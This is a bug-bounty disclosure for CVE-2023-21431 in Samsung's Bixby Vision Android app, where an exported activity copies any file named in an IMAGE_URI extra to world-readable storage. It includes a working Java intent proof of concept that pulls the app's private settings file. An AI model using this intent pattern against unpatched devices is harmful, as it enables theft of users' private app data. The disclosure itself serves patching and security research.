

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Bixby Vision</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.visionintelligence</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.04.08</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2023.01.04</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2023-21431">CVE-2023-21431</a> (SVE-2022-0884)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$1180</td>
    </tr>
</table>

# Description

Oversecured report:


The exported activity `com.samsung.android.visionintelligence.viImageActivity` took an external string parameter `IMAGE_URI`, which it treated as a URI and saved content from there to the SD card at the path `/sdcard/Android/data/com.samsung.android.visionintelligence/files/IntelligentCam/{yyyyymmdd}/{yyyyymmdd}-{hhmmss}.jpg`. Since the SD card is a world-readable directory, an attacker could make arbitrary files be copied there and then read them.

**Proof of Concept**

```java
Intent i = new Intent();
i.setClassName("com.samsung.android.visionintelligence", "com.samsung.android.visionintelligence.viImageActivity");
i.putExtra("IMAGE_URI", "file:///data/user/0/com.samsung.android.visionintelligence/shared_prefs/visionSetting.xml");
startActivity(i);
```

## References

- [Oversecured Blog. Android security checklist: theft of arbitrary files](https://blog.oversecured.com/Android-security-checklist-theft-of-arbitrary-files/)
